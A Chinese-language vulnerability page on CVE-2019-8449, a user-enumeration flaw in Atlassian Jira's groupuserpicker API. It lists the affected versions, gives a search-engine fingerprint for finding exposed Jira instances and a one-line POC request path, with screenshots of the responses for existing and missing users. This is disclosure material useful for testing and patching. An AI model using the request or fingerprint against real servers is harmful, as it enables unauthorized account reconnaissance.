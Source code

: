 # Atlassian Jira groupuserpicker 用户信息枚举漏洞 CVE-2019-8449

# Atlassian Jira groupuserpicker 用户信息枚举漏洞 CVE-2019-8449

## 漏洞描述

Atlassian Jira groupuserpicker接口存在用户信息枚举漏洞，攻击者通过漏洞可以获取应用中的使用者账户名称，来进行进一步渗透

## 漏洞影响

```
Atlassian Jira <8.4.0
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](/images/202205241426135.png)验证POC

```
/rest/api/latest/groupuserpicker?query=admin&maxResults=50&showAvatar=false
```

当用户存在时

![](/images/202205241426482.png)

当用户不存在时

![](/images/202205241427885.png)

